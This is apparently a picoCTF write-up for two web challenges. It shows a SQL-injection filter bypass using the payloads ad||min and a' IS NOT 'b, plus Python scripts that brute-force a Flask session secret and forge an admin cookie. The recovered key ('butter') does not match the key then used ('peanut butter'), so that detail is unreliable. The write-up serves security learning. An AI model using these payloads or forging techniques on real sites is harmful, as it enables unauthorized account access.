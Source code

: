# Web Gauntlet 2 → 170 Pts.

1. We land on a website’s login page.
2. We have a filter.php page which says which words are filtered out.
3. We put username=admin password=password but admin is filtered so we can’t put it.
4. Tried appending long passwords but the character limit is <34.
5. But we can see that when we put a random username and password which are under 34 then they were reverting back in the background of the login page.
6. Then we searched the SQLi payloads and studied them.
7. We tried concatenating the Admin word with || like ‘Ad’ || ‘min’ and password as password and we were getting the output in the background.
8. So now the thing remain is the payload and we generated the payload as ad||min as username and password as `a' IS NOT 'b`
9. We get success and then opening filter.php we get:

```
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}
?>
```

# Most Cookies → 150 Pts.

1. We have a same cookie page as the last one (more cookies)
2. We write snickerdoodle and get our cookie in an encrypted format.
3. We have given [server.py](http://server.py) which has 

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

1. What we can see is the wordlist we have here. 

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

1. This are the words which will give us our cookie. 
2. The JWT token is saying very_auth = snickerdoodle when we decode it so we need very_auth to say admin and then copy that very encoded JWT token and create a it as login cookie but how?
3. So we need a key and then we need to create very_auth = admin

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

wordlist = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

cookie_str="eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YF7u-Q.G5B5RUmEVaXNyLzjitMwzPxALp4"
def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, serializer=serializer, salt=salt, signer_kwargs = signer_kwargs)
    return s.loads(cookie_str)

for secret_key in wordlist:
    try:
        cookie = decode_flask_cookie(secret_key, cookie_str)
    except:
        continue

    print(secret_key)
    print(cookie)
```

<aside>
💡

butter
{'very_auth': 'snickerdoodle'}

</aside>

1. We used the snickerdoodle JWT Token to get the key and now as we have key we can now make our own JWT Token.

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer, TimestampSigner
from flask.sessions import TaggedJSONSerializer

session = {'very_auth': 'admin'}
secret = 'peanut butter'

print(URLSafeTimedSerializer(
    secret_key = secret,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs={
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
).dumps(session))
```

<aside>
💡 eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y4We0g.Cpg8E8mSastFPqOfoJnhhk4Im70

</aside>

1. Now we need to paste this JWT token as value in the cookie in session value and we will get out flag.

  `picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`

Note: For every user the flag will be different.
